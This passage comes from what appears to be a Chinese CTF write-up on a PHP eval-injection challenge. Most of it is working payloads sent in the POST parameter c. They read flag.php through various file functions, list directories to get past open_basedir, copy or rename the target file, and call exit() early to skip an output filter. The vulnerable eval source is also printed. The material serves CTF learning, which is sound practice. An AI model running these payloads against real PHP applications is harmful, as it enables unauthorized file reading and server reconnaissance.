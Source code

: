 
对应payload:
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fread($a,filesize("flag.php"));echo $line;}

c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}//一行一行读取

c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetc($a);echo $line;}//一个一个字符读取

c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetss($a);echo $line;} 

//php7.3.0版本后 该函数已不再被使用

c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgetcsv($a);var_dump($line);}

c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fpassthru($a);echo $line;}</code></pre>

常用获取文件路径的函数组合

<pre class="wp-block-code"><code>c=print_r(scandir(current(localeconv())));

c=print_r(scandir(dirname('__FILE__')));

c=$a=new DirectoryIterator('glob:///var/www/html/*');foreach($a as $f){echo($f->__toString()." ");}

c=$a=opendir("./"); while (($file = readdir($a)) !== false){echo $file . "&lt;br>"; };</code></pre>

通过`copy()`和`rename()`，复制文件内容后，访问url/flag.txt，如：`copy("flag.php","flag.txt");rename("flag.php","flag.txt");` 

<pre class="wp-block-code"><code>&lt;?php

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST&#91;'c'])){
        $c= $_POST&#91;'c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/&#91;0-9]|&#91;a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>

ob_get_contents — 返回输出缓冲区的内容
ob_end_clean — 会清除缓冲区的内容，并将缓冲区关闭，但不会输出内容</code></pre>

通过`exit();`使程序提前退出，绕过后面的正则表达式。

如果open_basedir 限制了访问路径，可以先找到文件。

<pre class="wp-block-code"><code>c=?>&lt;?php $a=new DirectoryIterator("glob://./*");
foreach($a as $f)
{echo($f->__toString().' ');
}
exit(0);
?></code></pre>
然后使用群主提供的uaf脚本

